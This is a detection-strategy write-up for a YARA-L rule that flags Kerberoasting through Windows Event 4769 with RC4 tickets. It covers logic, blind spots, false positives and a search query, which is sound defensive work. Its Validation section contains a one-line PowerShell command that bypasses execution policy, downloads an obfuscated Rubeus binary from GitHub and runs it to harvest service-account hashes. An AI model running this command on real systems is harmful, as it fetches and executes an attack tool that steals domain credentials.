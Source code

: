 # Detection Name

kerberoasting_abuse.yaral

# Goal
Detect attempts by a threat actor to enumerate SPN's and harvest weak passwords from service accounts via kerberoasting.

# Categorization
These attempts are categorized as [Credential Access / Steal or Forge Kerberos Tickets / Kerberoasting](https://attack.mitre.org/techniques/T1558/003/).

# Detection Functionality
The detection will work as follows:

* Record Windows Event logs
* Look for Windows EventID 4769
* Identify where the Encryption Type is 0x17
* Suppress known-good service accounts
  * Accounts ending with $
  * Known source users that run tools that enumerate SPN's
* Fire alert when the above conditions are met

# Blind Spots and Assumptions

This strategy relies on the following assumptions: 
* Windows Event Logs are logging properly without missing telemetry
* Logs are flowing to the SIEM in a reasonable timeframe
* SIEM is parsing the fields properly to map the detection logic

A blind spot will occur if any of the assumptions are violated. For instance, the following would not trip the alert: 
* Other Encryption Types (such as 0x12) being hit instead of 0x17 (RC4)
* SPN's are cached and the alert doesn't fire due to cached responses

# False Positives
There are several instances where false positives for this ADS could occur:

* Users explicitly performing SPN enumeration as part of SQL jobs
* Automated internal red-team testing

Most false positives can be tracked back to DBA's running scritps that enumerate SPN's and red team activity.

# Validation
Validation can occur by utilize Rubeus.exe to enumerate SPN's and harvest weak RC4 hashes.
```
%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Set-ExecutionPolicy Bypass -scope Process -Force; %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri "https://github.com/Flangvik/ObfuscatedSharpCollection/raw/main/NetFramework_4.7_Any/Rubeus.exe._obf.exe" -OutFile "C:\ProgramData\Rubeus.exe"; C:\Windows\System32\cmd.exe /C C:\ProgramData\Rubeus.exe kerberoast
```
# Relevance
Althought many environments no logner have weak RC4 hashes to easily get roasted, it is still a good detection to have to cover this attack vector. It is one of the easiest ways to compromise an elevated priileged account and allow an attacker to pivot to domain compromise.

# Priority
If this detection can be tuned properly, the severity should be a Critical with a 100 risk score.

# Search Example
This is a base UDM search to start with, finer tuning is required to move this into a detection and hone in the proper encryption types.
```
metadata.vendor_name = "Microsoft" AND metadata.product_event_type = "4769" AND principal.hostname = "win-dc.hack.domain" 
(target.resource.name = "0x40800000" OR target.resource.name = "0x40810000")
(target.resource.resource_subtype = "0x12" OR target.resource.resource_subtype = "0x17")
```